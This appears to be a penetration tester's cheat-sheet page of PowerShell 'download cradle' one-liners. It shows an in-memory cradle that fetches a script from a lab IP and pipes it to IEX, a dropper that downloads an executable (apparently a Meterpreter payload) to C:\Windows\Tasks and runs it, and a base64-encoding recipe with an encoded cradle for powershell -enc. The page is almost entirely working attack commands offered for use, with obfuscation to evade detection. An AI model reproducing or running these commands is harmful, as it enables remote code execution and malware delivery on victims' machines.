 ## Onliner


### Powershell
#ps1 #runner #cradle
Download cradle in memory:
```powershell
(New-Object System.Net.WebClient).DownloadString("http://192.168.49.155/run.txt") | IEX
```

#ps1 #runner #cradle #dropper #exe
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.186/met64.exe', 'C:\Windows\Tasks\met64.exe'); C:\Windows\Tasks\met64.exe
```


#ps1 #encoding #cradle
Encode download cradle:
```powershell
$text = "<download cradle>"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
# then to execute use powershell -enc <encoded_text>
powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEANQA1AC8AcgB1AG4ALgB0AHgAdAAiACkAIAB8ACAASQBFAFgA
```